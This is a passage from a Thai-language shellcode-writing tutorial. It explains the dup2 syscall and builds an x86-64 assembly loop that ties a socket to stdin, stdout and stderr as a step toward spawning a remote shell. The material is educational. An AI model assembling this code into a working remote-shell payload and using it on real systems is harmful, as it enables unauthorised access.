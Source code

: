 ซึ่งจาก [man-page](https://man7.org/linux/man-pages/man2/dup2.2.html) page dup2 ต้องการ argument ดังนี้

```c
int dup2(int oldfd, int newfd);
```

ซึ่งถ้าเราจะเรียกผ่าน syscall เราต้องจัดการ register ให้มีค่าดังนี้

- **RAX** = 0x21
- **RDI** = sockfd
- **RSI** = 0,1,2

เมื่อเรารู้แล้วว่าเราต้องทำการตั่งค่า register เพื่อใช้ในการเรียก syscall ยังไงบ้าง เรามาวางแผนกันดีกว่าจะเขียนยังไง ถ้าหากเขียนเป็น C จะได้ประมาณนี้

```c
dup2(sockfd, 0);    //rdi = sockfd, rsi = 0
dup2(sockfd, 1);    //rdi = sockfd, rsi = 1
dup2(sockfd, 2);    //rdi = sockfd, rsi = 2
```

จะเห็นว่าเราต้องทำการเรียก dup2 ทั้งหมด 3 รอบโดยค่า rdi คงเดิมและค่า rsi เพิ่มขึ้นทีละ 1 จากข้อก่อนหน้าค่าของ rdi เป็น sockfd อยู่แล้วนั่นหมายความว่าเราไม่ต้องไปแก้ไขอะไรเลย

เราจึงมาดูที่ค่า rsi กันต่อ จะเริ่มด้วยการตั้งค่า rsi เป็น 0 ก่อนเลย

```nasm
  xor rsi, rsi        ; rsi = 0
```

จากนั้นทำการ label loop_dup2 เพื่อใช้ในการทำ loop และทำการตั้งค่า rax เป็น 0x21 ซึ่งเป็น syscall ของ dup2

```nasm
  loop_dup2:
  mov rax, rsi
  mov al, 0x21        ; rax = 0x21
  syscall             ; call dup2(sockfd, rsi)
```

เมื่อทำ syscall สำเร็จเราก็จะทำการเพิ่มค่า rsi ขึ้น 1 จากนั้นเอาไป `cmp sil, 0x3` ว่า sil (byte สุดท้ายของ rsi) นั้นเท่ากับ 3 หรือยังถ้ายังก็ `jmp` กลับไปที่ `loop_dup2` เพื่อทำการ dup2 ให้ครบทั้ง 0, 1, และ 2 

```nasm
  inc rsi
  cmp sil, 0x3        ; if rsi != 3 jmp back to loop_dup2
                      ; else execv spawn shell
  jne loop_dup2
```

ถ้าหากทำการ dup2 ครบแล้วตอนนี้ค่าของ rsi ควรจะมีค่า เป็น 3 เมื่อทำการ `cmp` ก็จะไม่ทำการ `jmp` กลับไปที่ `loop_dup2` อีกต่อไป

ซึ่งตอนนี้เองเนี่ยทำการเชื่อม sockfd ของเราเข้ากับ STDIN, STDOUT, และ STDERR เรียบร้อย เอามารวมกันเราจะได้ assembly ประมาณนี้ค้าบบบ

```nasm
dup2:
    xor rsi, rsi        ; rsi = 0

    loop_dup2:
    mov rax, rsi
    mov al, 0x21        ; rax = 0x21
    syscall             ; call dup2(sockfd, rsi)

    inc rsi
    cmp sil, 0x3        ; if rsi != 3 jmp back to loop_dup2
                        ; else execv spawn shell
    jne loop_dup2
```
